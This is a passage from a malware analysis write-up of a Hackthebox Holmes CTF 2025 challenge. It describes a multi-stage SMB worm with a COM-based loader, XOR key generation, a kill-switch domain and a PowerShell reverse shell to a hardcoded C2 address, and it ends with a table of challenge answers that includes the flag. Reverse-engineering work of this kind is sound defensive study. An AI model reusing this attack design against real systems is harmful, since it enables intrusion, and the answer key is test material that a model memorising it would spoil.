    - The loop can be broken if the attacker sends the command exit.
    - Upon exiting the loop, the script properly closes the writer, the stream, and the socket connection.

# **5. Conclusion: Analysis Summary and Malware Overview**

This report has detailed the comprehensive reverse engineering of a multi-stage network worm. Our analysis successfully deconstructed the malware's entire attack chain, from the initial execution to the final decryption of its PowerShell-based payload.

### **Overview of the Malware**

The sample is a modular and evasive threat designed for network intrusion and remote access. Its primary function is to act as a specialized dropper for a fileless second stage. 

Key characteristics identified during our analysis include:

- **Multi-Stage Architecture:** The malware operates in distinct phases, using a native 64-bit executable to load and orchestrate a COM object, which in turn is responsible for decrypting and executing a final PowerShell payload.
- **COM-Based Orchestration:** The core logic, including all cryptographic and propagation actions, is not present in the native loader but is instead handled by methods within a custom COM object. This abstracts the malicious functionality and complicates static analysis.
- **.NET Dependency:** The malware explicitly checks for the presence of the .NET runtime (clr.dll), confirming that the COM component or its payload relies on a managed code environment.
- **Dynamic, Dual-Path Key Generation:** A 32-byte XOR key is generated dynamically using two different routines: a complex, obfuscated path with SIMD instructions for modern CPUs, and a simple, linear fallback path for older systems.
- **Remotely Controllable Kill Switch:** The malware decrypts a hardcoded domain (k1v7-echosim.net) and performs a DNS lookup. This functions as a kill switch, allowing the threat actor to deactivate all infections by simply registering the domain.
- **Automated SMB Worm Propagation:** If the kill switch is inactive, the malware scans the `192.168.1.0/24` subnet, enumerates open, non-administrative SMB shares, and uses a COM method to deliver its encrypted payload to new victims.
- **PowerShell Reverse Shell Payload:** The ultimate payload is a PowerShell script that establishes a reverse shell to a hardcoded C2 server at `192.168.1.10:4444`, granting the attacker interactive command-line access to the compromised host.

# **Summary**

This malware is a multi-stage network worm designed to take over computers on a local network.
It begins with a native C++ program whose only job is to launch a hidden .NET component. 

This component contains all the real malicious logic. Once active, it first checks a remote "kill switch" domain ([k1v7-echosim.net](http://k1v7-echosim.net/)) to see if it should proceed.

If the kill switch is off, the malware scans the 192.168.1.0/24 network, finds open file shares, and copies itself to other machines. Its ultimate goal is to run its final payload: a PowerShell script that opens a backdoor, giving attackers a remote command-line shell on the infected computer.

In short, it is an automated tool used to gain an initial foothold inside a network, which then allows for hands-on, interactive attacks.

# **Appendix A: CTF Challenge Findings**

This section documents the specific questions posed by the Hackthebox Holmes CTF 2025 challenge and the corresponding answers derived from the preceding analysis. Each answer is supported by evidence found within the malware's code and behavior.

| **#** | **Question** | **Answer** | **Reference / Justification** |
| --- | --- | --- | --- |
| **1** | During execution, the malware initializes the COM library on its main thread. Based on the imported functions, which DLL is responsible for providing this functionality? | ole32.dll | Found in the static analysis of imported libraries (Section 2.3). The binary imports CoInitialize, CoCreateInstance, etc., from this DLL. |
| **2** | Which GUID is used by the binary to instantiate the object containing the data and code for execution? | dabcd999-1234-4567-89ab-1234567890ff | This CLSID is hardcoded and passed as an argument to CoCreateInstance at 0x140001c9b (Section 4.2). |
| **3** | Which .NET framework feature is the attacker using to bridge calls between a managed .NET class and an unmanaged native binary? | **COM Interop** | The entire architecture of using a native C++ loader to call methods on a .NET-dependent object via COM is a classic example of COM Interop. |
| **4** | Which Opcode in the disassembly is responsible for calling the first function from the managed code? | ff 50 68 | This is the call qword [rax+0x68] instruction at 0x140001d23, representing the first interaction with the COM object's custom code (Section 4.2). |
| **5** | Identify the multiplication and addition constants used by the binary's key generation algorithm for decryption. | **7, 42h** | These constants are used in the scalar fallback key generation loop at 0x140001f03 (imul ecx, eax, 0x7) and 0x140001f06 (add cl, 0x42) (Section 4.3). |
| **6** | Which Opcode in the disassembly is responsible for calling the decryption logic from the managed code? | ff 50 58 | This is the call qword [rax+0x58] instruction at 0x1400020f6, which passes the key and encrypted data to the COM object (Section 4.4). |
| **7** | Which Win32 API is being utilized by the binary to resolve the killswitch domain name? | getaddrinfo | This function is called at 0x1400021fc to perform the DNS lookup for the kill switch check (Section 4.4). |
| **8** | Which network-related API does the binary use to gather details about each shared resource on a server? | NetShareEnum | This function is called within ScanAndSpread at 0x1400014d0 to enumerate SMB shares on the target host (Section 4.5). |
| **9** | Which Opcode is responsible for running the encrypted payload? | ff 50 60 | This is the call qword [rax+0x60] instruction at 0x14000197a within ScanAndSpread, which delivers the final payload (Section 4.5). |
| **10** | Identify the killswitch domain. | **k1v7-echosim.net**  | The domain was successfully decrypted by reverse-engineering the key generation algorithm (Section 4.4). This is the final flag for the challenge. |